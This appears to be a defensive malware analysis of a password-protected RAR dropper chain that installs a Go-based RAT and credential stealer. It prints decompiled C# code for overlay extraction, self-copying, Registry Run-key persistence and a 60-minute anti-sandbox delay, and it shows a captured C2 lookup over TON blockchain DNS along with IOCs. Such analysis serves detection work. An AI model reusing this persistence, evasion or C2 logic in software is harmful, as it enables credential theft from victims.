# Analysis — Loader by Sexsoldier (RAT/Stealer)

**Date:** 2026-04-10  
**Analyst:** dd1d3  
**Source:** Google Drive link — `Loader .rar` (password: `123123`)  
**AV Detection:** `Trojan:Win32/Ravartar!rfn` (Windows Defender)  
**Classification:** Multi-stage dropper → Go-based RAT/Stealer 

---

## Disclaimer

Analysis conducted in isolated VM environment for educational purposes only.

---

## Overview

A RAR archive distributed via Google Drive with password `123123` a common technique to bypass browser level malware scanning (Chrome Safe Browsing cannot scan password-protected archives). The payload is a three-stage dropper chain terminating in a fully-featured Go RAT with keylogging, credential theft, Discord token stealing, Steam session stealing, cryptocurrency wallet targeting, and a SOCKS5 proxy C2 channel.




---

## Infection Chain

```
Loader .rar  (password: 123123 — bypasses browser AV)
        │
        └── Loader by Sexsoldier.exe  (C#, .NET Framework — stage 1 dropper)
                │
                └── %AppData%\Local\MergedApps_{GUID}\
                        ├── conhost.exe  (C#, .NET Framework — stage 2 dropper)
                        │       └── [embedded resource: svchost.svchost]
                        │               └── svchost.exe  (Go, UPX — final payload)
                        └── svchost.exe
```

---

## Stage 1 — Loader by Sexsoldier.exe

### DIE Triage

| Field | Value |
|-------|-------|
| File type | PE32 |
| Size | 20.17 MiB |
| Language | MSIL/C# |
| Framework | .NET Framework (Legacy, CLR v4.0.30319) |
| Packer | Strange overlay detected |

Large file size (20 MB) for a C# binary suggests embedded payload in overlay confirmed by DIE overlay detection.



### dnSpy Analysis — Main()

The dropper logic is fully readable, no obfuscation:

```csharp
string text = Path.Combine(
    Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), 
    "MergedApps_" + Guid.NewGuid().ToString()
);
Directory.CreateDirectory(text);
```

Creates a unique directory `%AppData%\Local\MergedApps_{GUID}` as the extraction target.

### Payload extraction logic

The dropper reads its own binary from the end (overlay):

```csharp
fileStream.Seek(-20L, SeekOrigin.End);
byte[] array = new byte[20];
fileStream.Read(array, 0, 20);
byte[] array2 = new byte[] { 222, 173, 190, 239 };  // Magic: 0xDEADBEEF
```


```csharp
if (@string.EndsWith(".exe", StringComparison.OrdinalIgnoreCase))
{
    list.Add(text2);
}
foreach (string text3 in list)
{
    Program.RunWithoutWait(text3);
}
```







Runs all extracted `.exe` files without waiting.

### Locals captured during debug

```
text     = "C:\Users\kidew\AppData\Local\MergedApps_a69fccd8-52c3-43ee-aa74-24f0138b4127"
location = "C:\Users\kidew\Desktop\virus\Loader by Sexsoldier.exe"
num      = 0x1800  (offset into overlay)
num2     = 3       (number of embedded files)
```

Three files extracted from the overlay.

---

## Stage 2 — conhost.exe (Second Dropper)

### DIE Triage

| Field | Value |
|-------|-------|
| File type | PE32 |
| Size | 729.50 KiB |
| Language | MSIL/C# |
| Framework | .NET Framework v4.7.2, CLR v4.0.30319 |
| Packer | High entropy, Section 0 ".text" compressed |
| Debug | PDB file link present |


### Dropped files

```
%AppData%\Local\MergedApps_{GUID}\
├── conhost.exe   (730 KB)
└── svchost.exe   (3,512 KB — UPX packed Go binary)
```


Both files use Windows system process names for camouflage.

### dnSpy Analysis — HiddenAutoLauncher namespace

Namespace name `HiddenAutoLauncher` — left in binary unobfuscated.

**Main() logic:**

```csharp
Program.HideConsoleWindow();
bool flag = !location.Equals(Program.PERMANENT_COPY_PATH, ...);
if (flag)
{
    Program.LogError("First launch detected from: " + location);
    Program.CopyAndLaunchPermanent();
    Program.LogError("Original executable can now be deleted. Exiting original instance...");
}
else
{
    Program.LogError("Running from permanent location: " + location);
    Program.AddToStartup();
    Program.InitializeTracking();
    Program.LogError("Program started. Running in background...");
    Program.RunBackgroundMonitoring();
}
```

Two-phase execution:
1. **First launch** — copies itself to permanent location, relaunches, exits
2. **Permanent location** — adds to startup, initializes tracking, runs monitoring loop

**Constants (hardcoded, no obfuscation):**

```csharp
private const int DELAY_MINUTES = 60;
private const int CHECK_INTERVAL_MS = 10000;
private static readonly string PERMANENT_COPY_PATH = 
    Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), 
    "SystemData", "svchost.exe");
private static readonly string TRACKING_FILE = 
    Path.Combine(Path.GetTempPath(), "autolauncher_tracking.txt");
private static readonly string EXTRACTED_STEAM_PATH = 
    Path.Combine(Path.GetTempPath(), "svchost.exe");
```

**Persistence via Registry:**

```csharp
private static void AddToStartup()
{
    string text = "SystemAutoLauncher";
    RegistryKey registryKey = Registry.CurrentUser.OpenSubKey(
        "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
    registryKey.SetValue(text, Program.PERMANENT_COPY_PATH);
    Program.LogError("Added to startup");
}
```

Registry key: `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\SystemAutoLauncher`  
Value: `%AppData%\SystemData\svchost.exe`

**60-minute delay before payload launch:**

```csharp
private static void CheckAndLaunchIfReady()
{
    DateTime now = DateTime.Now;
    bool flag2 = File.Exists(Program.TRACKING_FILE);
    if (flag2)
    {
        DateTime dateTime = DateTime.Parse(text).AddMinutes(60.0);
        bool flag3 = now >= dateTime;
        if (flag3)
        {
            Program.LogError(string.Format(">>> TIME HAS COME! Current: {0}, Target: {1}", now, dateTime));
            Program.ExtractAndLaunchSteam();
        }
    }
}
```

Waits exactly 60 minutes from first run before launching the final payload. Most sandboxes run for 3-5 minutes this completely bypasses automated analysis. Debug string `>>> TIME HAS COME!` left in build.

**svchost.exe embedded as .NET resource:**

```csharp
private static byte[] GetEmbeddedSteam()
{
    Assembly executingAssembly = Assembly.GetExecutingAssembly();
    string text = "svchost.svchost";
    using (Stream manifestResourceStream = executingAssembly.GetManifestResourceStream(text))
    { ... }
}
```








The final Go payload is stored as an embedded .NET resource named `svchost.svchost` inside `conhost.exe`.

---

## Stage 3 — svchost.exe (Go RAT/Stealer)

### DIE Triage

| Field | Value |
|-------|-------|
| File type | PE32 |
| Size | 3.43 MiB (packed) / ~12 MiB (unpacked) |
| Language | ASMx86 (UPX shell) |
| Packer | UPX 5.02 [LZMA, brute] |



**After UPX unpacking:**
```
12576768 <- 3595776   28.59%   win32/pe   svchost.exe
```

DIE on unpacked binary confirms: **Go (go1.x), PE32, Windows 7**





### GoReSym Function Recovery

Used **GoReSym** to recover function names from the stripped Go binary. Full capability list recovered:

**Keylogging:**
- `main.runKeylogger`
- `main.keyPressCallback`
- `main.windowChangeCallback`
- `main.SetWinEventHook`
- `main.specialKeyName`
- `main.getClipboardText`
- `main.periodicFlush`
- `main.IsIdle`



**Screen capture:**
- `main.getScreen`
- `main.sendScreen`



**Browser credential theft:**
- `main.getChrome`
- `main.getChromeLogins`
- `main.getChromeCookies`
- `main.getChromeAutofils`
- `main.getChromeToken`
- `main.DecryptChrome`
- `main.getLocalEncryptorDataKey`
- `main.decryptAesGcm256`
- `main.GetChromiumMasterKeys`
- `main.getYandexLogins`
- `main.getGeckoCookies` (Firefox/Gecko-based browsers)
- `main.readFileFromHandle`
- `main.fixBytes`






**Steam:**
- `main.getSteams`
- `main.decodeSteam`
- `main.ExtractAndLaunchSteam`




**C2 infrastructure:**
- `main.c2Server`
- `main.proxy`
- `main.(*socks5Conn).processRequest`
- `main.(*socks5Conn).Close`
- `main.copyConn`



**SOCKS5 proxy — built-in:**
The binary implements a full SOCKS5 proxy server (`socks5Conn`). This allows the attacker to route traffic through the victim's machine.

**Error reporting:**
- `main.reportError`

### FakeNet-NG Network Analysis

```
svchost.exe (PID 6000) → DNS: ton.access.orbs.network
svchost.exe (6000) → TCP 192.0.2.123:443

POST /route/1/mainnet/toncenter-api-v2/runGetMethod HTTP/1.1
Host: ton.access.orbs.network
User-Agent: Go-http-client/1.1
Content-Type: application/json
Content-Length: 244

{"address":"Ef_lZ1T4NCb2mwkme9h2rJfESCE0W34ma9lWp7-_uY3zXDvq",
 "method":"dnsresolve",
 "stack":[["tvm.Slice","te6cckEBAQEAEgAAAIHRvbgB3ZWJyYXR4YXllMQDAQn8n"]]}
```

The malware queries the **TON blockchain** (Telegram's cryptocurrency network) using a wallet address and `dnsresolve` method. This is a known technique — **blockchain-based C2** where the C2 server address is stored in a TON DNS record. The attacker can change the C2 IP by updating the blockchain record without touching the malware binary.




---

## Full Capability Summary

| Capability | Evidence |
|-----------|----------|
| Keylogger | `runKeylogger`, `keyPressCallback`, `SetWinEventHook` |
| Screenshot | `getScreen`, `sendScreen` |
| Chrome credentials | `getChromeLogins`, `getChromeCookies`, `DecryptChrome`, `DPAPI` |
| Firefox credentials | `getGeckoCookies` |
| Yandex credentials | `getYandexLogins` |
| Discord token | `getDiscord` |
| Steam session | `getSteams`, `decodeSteam` |
| Clipboard | `getClipboardText` |
| Crypto theft | TON blockchain query, `zipAddrs` |  
| C2 channel | `c2Server`, DNS-based C2 |
| SOCKS5 proxy | `socks5Conn`, `processRequest`, `proxy` |
| Persistence | Registry Run key — `SystemAutoLauncher` |
| Self-copy | `CopyAndLaunchPermanent` → `%AppData%\SystemData\svchost.exe` |


---

## IOCs

```
Archive password:     123123
Dropper name:         Loader by Sexsoldier.exe
AV detection:         Trojan:Win32/Ravartar!rfn
Persistence path:     %AppData%\SystemData\svchost.exe
Registry key:         HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\SystemAutoLauncher
Tracking file:        %TEMP%\autolauncher_tracking.txt
Extraction dir:       %AppData%\Local\MergedApps_{GUID}\
C2 mechanism:         TON blockchain DNS (ton.access.orbs.network)  (probably)
Delay:                60 minutes (anti-sandbox)
Final payload:        Go RAT/Stealer (svchost.exe, UPX packed)
```

---

## Tools Used

| Tool | Purpose |
|------|---------|
| DIE (Detect It Easy) | Triage, packer/compiler detection |
| dnSpy | .NET decompilation (stages 1 & 2) |
| GoReSym | Go function name recovery |
| UPX | Unpacking svchost.exe |
| FakeNet-NG | Network traffic interception |
| Windows Defender | Initial threat detection |

---
